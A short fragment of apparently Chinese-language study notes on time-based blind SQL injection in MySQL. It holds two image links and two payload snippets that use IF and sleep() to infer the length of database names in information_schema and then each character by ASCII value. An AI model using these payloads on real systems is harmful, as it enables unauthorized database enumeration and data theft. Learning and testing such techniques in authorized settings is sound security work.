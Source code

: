 ![image-20250222151235928](static/image/image-20250222151235928.png)

![image-20250222151544304](static/image/image-20250222151544304.png)

#### 判断数据库名长度

```mysql
AND IF((SELECT LENGTH(schema_name) FROM information_schema.schemata limit 第x个数据库,1)=7,sleep(2),0)
```

#### 判断数据库名

```mysql
AND IF((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码,sleep(2),0)
```
